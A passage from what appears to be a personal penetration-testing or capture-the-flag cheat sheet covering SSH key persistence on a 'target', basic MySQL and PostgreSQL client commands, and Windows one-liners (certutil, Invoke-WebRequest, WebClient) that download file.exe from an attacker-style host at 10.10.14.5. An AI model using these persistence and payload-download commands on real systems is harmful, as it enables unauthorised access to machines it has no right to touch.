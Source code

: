 ### Add SSH Key
```bash
# Generate on your machine if needed
ssh-keygen -t rsa -b 4096

# Add to target
echo "ssh-rsa YOUR_PUBLIC_KEY_HERE" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

## Database Connections

### MySQL
```bash
# Connect
mysql -u root -p
mysql -u username -ppassword  # No space after -p

# Common commands I forget
show databases;
use database_name;
show tables;
describe table_name;
select * from table_name;
```

### PostgreSQL
```bash
# Connect
psql -U username -h localhost

# Commands
\l          # List databases
\c dbname   # Connect to database
\dt         # List tables
\d table    # Describe table
\q          # Quit
```

## Windows Quick Commands

### File Transfer
```bash
# Certutil
certutil -urlcache -f http://10.10.14.5:8080/file.exe file.exe

# PowerShell
iwr -Uri http://10.10.14.5:8080/file.exe -OutFile file.exe
Invoke-WebRequest -Uri http://10.10.14.5:8080/file.exe -OutFile file.exe
(New-Object Net.WebClient).DownloadFile('http://10.10.14.5:8080/file.exe','file.exe')
```

